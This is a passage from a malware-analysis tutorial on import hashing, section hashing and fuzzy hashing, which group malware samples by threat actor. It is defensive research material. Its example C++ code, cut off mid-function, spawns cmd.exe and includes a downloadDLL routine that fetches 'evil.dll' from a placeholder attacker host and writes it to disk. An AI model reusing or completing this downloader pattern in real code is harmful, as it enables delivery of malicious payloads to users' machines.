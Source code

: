 :orphan:
(fuzzy-hashing-import-hashing-and-section-hashing)=

# Fuzzy Hashing, Import Hashing and Section Hashing

In a [previous post](yara-a-powerful-malware-analysis-tool-for-detecting-ioc-s-part-2), we looked at a variety of methods for tracking and recognizing malware samples, including hashes, fuzzy hashes, and even developing YARA rules. However, threat actors are constantly changing their signatures, making it difficult for us to recognize their approaches and tactics.

In this post, we'll go over a few advanced strategies for detecting malware samples that come from the same threat actor. The four key topics are as follows:

- Import Hash
- Section Hash
- Import Fuzzy
- Breaking Import Hash: recent [research by Chris Balles and Ateeq Sharfuddin](https://arxiv.org/pdf/1909.07630.pdf)

## Import Hash

Various organizations, such as FireEye, which specializes in incident response, and VirusTotal, which specializes in sandboxing and online scanning, have found that threat actors may be utilizing the same code for multiple targets with just minor changes to make it fit for their target. So, what does this all imply for us? Let's find out.

Checking the hash of the Import Address Table (IAT) is the plan, since when malware code is built, the linker generates and builds the IAT based on the sequence of the functions in the code.

Therefore, if threat actors are utilizing the same code with minor alterations, we could likely identify the samples we gather and categorize them based on the IAT's hash into which family or threat actor they belong.

Let's illustrate with a basic example as shown below:

```cpp
int CreateCmd() {
    wchar_t cmd[] = L"cmd.exe";
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    BOOL OK = CreateProcessW(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
    return 0;
}

int CreateNotepad() {
    wchar_t cmd[] = L"notepad.exe";
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    BOOL OK = CreateProcessW(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
    return 0;
}

int downloadDLL() {
    DWORD dwFileSize = 1024;
    char* buffer = new char[dwFileSize + 1];
    DWORD dwBytesRead;
    DWORD dwBytesWritten;
    HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    HINTERNET hHttpFile = InternetOpenUrl(hSession, (LPCSTR)"http://pleasehack.me/evil.dll", 0, 0, 0, 0);
    HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    do {
        buffer = new char[dwFileSize + 1];
        ZeroMemory(buffer, sizeof(buffer));
```
